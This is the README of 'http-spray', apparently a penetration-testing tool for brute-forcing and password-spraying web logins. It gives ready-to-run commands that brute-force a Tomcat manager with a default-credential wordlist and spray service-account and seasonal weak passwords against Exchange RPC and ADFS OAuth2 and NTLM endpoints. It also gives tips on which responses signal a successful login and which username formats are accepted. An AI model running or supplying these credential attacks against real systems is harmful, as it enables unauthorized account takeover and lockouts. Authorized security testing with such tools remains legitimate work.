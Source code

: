 # http-spray

## Setup

Install with [pipx](https://github.com/pypa/pipx/).

~~~ bash
pipx install git+https://github.com/dadevel/http-spray.git
~~~

## Usage

Brute force Tomcat manager.

~~~ bash
curl -LO https://github.com/dadevel/wordlists/raw/main/passwords/tomcat-credentials.txt
http-spray -t https://app.corp.com/tomcat/manager/html -m basic -C ./tomcat-credentials.txt | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

Spray common service accounts against on-prem Exchange server.

~~~ bash
http-spray -t https://mail.corp.com/rpc/ -m ntlm -c scanner:scanner -c printer:printer | tee -a ./http-spray.json | jq -c 'select(.status_code != 401)'
~~~

> **Note:**
>
> The RPC endpoint returns 404 for successful logins.
> For alternate endpoints see [here](https://github.com/dadevel/wordlists/raw/main/windows/exchange.txt).
>
> Furthermore Exchange accepts the following username formats: `jdoe`, `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work for the OWA web login.

Spray weak passwords against ADFS trough OAuth2 password grant.

~~~ bash
http-spray -t https://sts.corp.com/adfs/oauth2/token/ -m oauth --client-id 11111111-2222-3333-4444-555555555555 --resource https://app.corp.com/ -U ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json | jq -c 'select(.status_code == 200)'
~~~

Spray weak passwords against ADFS trough NTLM authentication.

~~~ bash
http-spray -t https://sts.corp.com/adfs/services/trust/2005/windowstransport -m ntlm -U ./users.txt -p 'Summer2023!' -p 'Winter2023!' | tee -a ./http-spray.json
~~~

> **Note:**
>
> ADFS accepts the following username formats: `corp\jdoe`, `corp.com\jdoe` and `jdoe@corp.com` where `jdoe` is the *samaccountname*.
> Depending on the environment the *mail* attribute, e.g. `john.doe@corp.com`, might work as well.
